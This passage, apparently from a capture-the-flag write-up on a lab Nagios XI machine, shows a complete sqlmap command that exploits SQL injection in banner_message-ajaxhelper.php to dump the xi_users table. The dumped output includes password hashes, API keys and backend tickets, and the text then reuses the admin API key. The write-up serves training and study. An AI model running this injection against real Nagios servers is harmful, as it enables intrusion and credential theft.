     | xi_mibs                     |
    | xi_options                  |
    | xi_sessions                 |
    | xi_sysstat                  |
    | xi_usermeta                 |
    | xi_users                    |
    +-----------------------------+
    ...[snip]...
    

I’ll dump the `xi_users` table:

    
    
    oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10 -D nagiosxi -T xi_users --dump
    ...[snip]...
    Database: nagiosxi
    Table: xi_users
    [2 entries]
    +---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
    | user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
    +---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
    | 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 0              | 1701427555           |
    | 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1715201011   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 7              | 1699697433           |
    +---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
    

There’s two users, svc and admin. Neither hash cracks in `hashcat` with
`rockyou.txt`. But there is an API key for each user as well.

#### Admin API POC

I’ll go back to the original API example from the PDF above, and with admin’s
API key it works!
